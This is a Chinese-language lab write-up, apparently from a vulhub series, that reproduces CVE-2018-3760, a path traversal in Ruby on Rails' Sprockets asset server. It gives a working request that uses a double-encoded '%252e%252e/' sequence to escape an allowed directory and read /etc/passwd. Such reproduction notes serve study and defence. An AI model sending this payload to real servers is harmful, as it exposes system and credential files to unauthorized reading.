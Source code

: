 # Ruby On Rails路径遍历漏洞（CVE-2018-3760）

###### by ADummy

### 0x00利用路线

​			通过报错获取允许目录的列表--->通过允许的目录绕过访问任意文件

### 0x01漏洞介绍

​			Ruby On Rails是一个著名的Ruby Web开发框架，它在开发环境中使用Sprockets作为静态文件服务器。Sprockets是一个Ruby库，用于编译和分发静态资源文件。

Sprockets 3.7.1及更低版本中的辅助解码导致路径穿越漏洞。攻击者可以`%252e%252e/`用来访问根目录并读取或执行目标服务器上的任何文件。

##### 			影响版本

```
Sprockets <3.7.1
```

### 0x02漏洞复现

`http://your-ip:3000`，您会看到欢迎页面。

![Ruby_On_Rails路径遍历漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Ruby_On_Rails路径遍历漏洞_1.jpg)

`http://your-ip:3000/assets/file:%2f%2f/etc/passwd`由于该文件`/etc/passwd`不在允许的目录中，因此直接访问将产生错误

![Ruby_On_Rails路径遍历漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Ruby_On_Rails路径遍历漏洞_2.jpg)

我们可以通过错误页面获取允许目录的列表。只需选择其中一个，例如`/usr/src/blog/vendor/assets/javascripts`，然后使用`%252e%252e/`跳转到父目录，最后读取文件`/etc/passwd`：

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/vendor/assets/javascripts/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![Ruby_On_Rails路径遍历漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Ruby_On_Rails路径遍历漏洞_3.jpg)



